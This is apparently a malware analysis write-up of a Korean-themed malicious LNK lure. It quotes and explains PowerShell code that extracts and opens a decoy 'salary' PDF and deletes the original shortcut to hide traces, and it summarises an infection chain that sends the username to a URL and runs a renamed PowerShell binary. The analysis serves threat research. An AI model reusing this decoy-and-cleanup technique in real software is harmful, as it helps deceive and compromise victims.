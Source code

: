 **PowerShell Payload:**

```powershell
$DirPath = Get-Location
if ($DirPath -Match 'System32' -or $DirPath -Match 'Program Files' -or $DirPath -eq '') {
    $DirPath = $env:TEMP
}

```

- If running in a protected folder, switches to a temp directory.

```powershell
$Files = Get-ChildItem -Path $DirPath -Recurse -Filter '월급.lnk'
foreach ($File in $Files) { $lnkF = $File.FullName }

```

- Searches for a file named '월급.lnk' (Korean: "Salary.lnk")
- Likely the file that was originally clicked.

```powershell
$fileBytes = Get-Content -Path $lnkF -Encoding Byte -Raw

```

- Reads the LNK file in binary mode.

```powershell
$a5 = 0x25; $b4 = 0x50; $c3 = 0x44; $d4 = 0x46
for (...) { if ($fileBytes[i..i+3] -eq %PDF) { $startA = i; break } }

```

- Searches for a PDF header: `%PDF` → 0x25 0x50 0x44 0x46

```powershell
$byteC = 58461
$selectedBytes = $fileBytes[$startA..($startA+$byteC-1)]

```

- Extracts the next 58KB, assuming it's a valid decoy PDF.

```powershell
$NormalF = $lnkF -replace 'lnk','pdf'
Set-Content -Path $NormalF -Value $selectedBytes -Encoding Byte
ii $NormalF
Remove-Item -Path $lnkF

```

- Writes the PDF to disk, opens it, and deletes the original `.lnk` file.

### Infection Flow Summary

- User clicks plum.lnk
- .LNK fires up cmd.exe, which grabs the username and pings a URL (google[.]com/112.jsp) with it.
- CMD hunts for a renamed PowerShell binary (like rshell.exe) and runs it quietly.
- PowerShell checks the current folder. If it’s somewhere like System32 or Program Files, it switches to the temp directory.
- It looks for another .LNK file named 월급.lnk (Korean for "Salary").
- Reads that .LNK as raw bytes, hunting for a %PDF header to find an embedded PDF.
- Pulls out ~58KB of data, saves it as a .pdf file, and opens it to look legit.
- Deletes the original .LNK to cover its tracks.
